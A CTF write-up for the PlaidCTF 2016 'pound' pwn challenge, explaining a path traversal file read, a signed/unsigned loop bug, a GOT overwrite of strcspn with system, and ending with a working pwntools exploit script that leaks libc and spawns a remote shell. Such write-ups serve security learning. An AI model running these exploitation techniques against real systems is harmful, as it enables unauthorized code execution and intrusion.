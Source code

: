 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/04/18/plaidctf-2016-pound/
date: 2016-04-18T06:00:03+09:00
tags: [ "ctf", "pwn", "writeup", "plaidctf" ]
---
```


# PlaidCTF 2016 pound

I like the gimmick to give the source code and compiled binaries.

## solution

### host.py

To get some required information, choose `1. Read Trump article` and send a relative path from `./tweets`.
You may want to read the paths:

-   `../pound.c`
-   `../../../../lib32/libc.so.6`
-   `../sims/sim-XXXX`
-   `../../../../proc/self/maps`

### pound.c

To make a vulnerability, you can use `0u`.
If `#define L1 0u`, `for (i=0; i < L1-1; i++)` becomes `for (i=0; i < 0xffffffff; i++)` by mixing signed and unsigned integers.

To be able to read/write somewhere, use the `char *announcement;`.
If you can modify this, read/write are done by `0. Print state`, `4. Create Announcement`.
Now, in `2. Simulate Propagate Forward` or `3. Simulate Propagate Backward`, the first loops don't terminate until it reaches a null dword.
So if you make `L1` and `L2` to `0u`, fill `char s1_name[STATE_SIZE_LEN];` and `char s2_name[STATE_SIZE_LEN];` with positives, it will reaches the `char *announcement;` and `int announcement_length;`.
When you use `2. Simulate Propagate Forward` with amount $k$, the null dword and the previous dword are increased by $k$.

To get shell, we need to know libc base address and let to call `system` with `/bin/sh`.
The both read/write can/should be done at once.
Make the `announcement` a pointer to the GOT, then read, and write the same address.
You should write `/bin/sh` and the address to `system` with `if (fgets (global.announcement, len, stdin) == NULL)` in `void create_announcement ()`, as the succeeding `strcspn(global.announcement, "\n")` acts as `system("/bin/sh", "\n")`.

### note

At this time, the GOT was like below.

``` sh
$ objdump -R sim

sim:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
0804affc R_386_GLOB_DAT    __gmon_start__
0804b040 R_386_COPY        stdin@@GLIBC_2.0
0804b060 R_386_COPY        stdout@@GLIBC_2.0
0804b00c R_386_JUMP_SLOT   printf@GLIBC_2.0
0804b010 R_386_JUMP_SLOT   strcspn@GLIBC_2.0
0804b014 R_386_JUMP_SLOT   free@GLIBC_2.0
0804b018 R_386_JUMP_SLOT   fgets@GLIBC_2.0
0804b01c R_386_JUMP_SLOT   malloc@GLIBC_2.0
0804b020 R_386_JUMP_SLOT   __gmon_start__
0804b024 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804b028 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804b02c R_386_JUMP_SLOT   __isoc99_sscanf@GLIBC_2.7
0804b030 R_386_JUMP_SLOT   setvbuf@GLIBC_2.0
0804b034 R_386_JUMP_SLOT   rand@GLIBC_2.0
```

By the way, what was `int secret;`?

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('sim')
libc = ELF('libc.so.6')

p = remote(args.host, args.port)

p.sendline('2')
p.recvuntil('[Smaller] State 1 Size:')
p.sendline('0u')
p.recvuntil('[Larger] State 2 Size:')
p.sendline('0u')

p.recvuntil('Enter the name of the first state:')
p.send('A' * 512)
p.recvuntil('Enter the name of the second state:')
p.send('A' * 512)
p.recvuntil('Enter Your Choice: ')
p.sendline('')

log.info('strcspn got: ' + hex(elf.got['strcspn']))
p.recvuntil('Enter Your Choice: ')
p.sendline('2')
p.sendline(str(elf.got['strcspn'] - 21))

p.recvuntil('Enter Your Choice: ')
p.sendline('2')
p.sendline(str(13))

p.recvuntil('Enter Your Choice: ')
p.sendline('0')
p.recvuntil('PSA: ')
p.recv(16)
libc_base = u32(p.recv(4)) - libc.symbols['fgets']
log.info('libc base: ' + hex(libc_base))

p.recvuntil('Enter Your Choice: ')
p.sendline('4')
p.recvuntil('Enter the length of your announcement: ')
p.sendline(str(13))
p.sendline('/bin/sh\0' + p32(libc_base + libc.symbols['system']))

time.sleep(1)
p.sendline('id')
p.interactive()
```
